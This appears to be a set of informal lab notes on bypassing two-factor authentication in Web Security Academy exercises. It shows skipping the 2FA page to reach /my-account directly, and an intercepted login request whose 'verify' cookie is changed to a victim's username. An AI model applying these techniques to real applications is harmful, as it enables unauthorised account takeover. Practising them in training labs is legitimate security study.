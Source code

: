 ## Direct bypass
Fuck the 2FA, just try to access the next endpoint directly (you need to know the path of the next endpoint).


## Ex 1 2FA simple bypass
 
 1. Loging Account use username and password 
 2. Please enter your 4-digit security code 
 
  3. Check The Email and use the code and loging
  4. check the url parameter
  
         https://aca11f651ff1ebfac0cc7137009500a3.web-security-academy.net/my-account
         /my-account is end-point
         
 5. loging Vicatm Account and send the 4 digit code 

 6. This is Url in Vicatam account
 
        https://aca11f651ff1ebfac0cc7137009500a3.web-security-academy.net/login2
        
 7. And add the end-point parameter
 
        /my-account
        https://aca11f651ff1ebfac0cc7137009500a3.web-security-academy.net/my-account
 
 ## Finally Hack The Vicatam Account
 
 ## EX 2 2FA broken logic
 1.loging Account and intercept the request
 
    GET /login2 HTTP/1.1
    Host: acca1fb51e222ae1c096b0ee00130073.web-security-academy.net
    Cookie: verify=Asif; session=BbzscnaCtyy4b69XW8P9Q0JRlqLq8iMU
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: navigate
    Sec-Fetch-User: ?1
    Sec-Fetch-Dest: document
    Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="99"
    Sec-Ch-Ua-Mobile: ?0
    Sec-Ch-Ua-Platform: "Linux"
    Referer: https://acca1fb51e222ae1c096b0ee00130073.web-security-academy.net/login
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9
    Connection: close
    
 And Note Cookie: Verify username so change the username adn add the victom username and sand the request
 
 
 
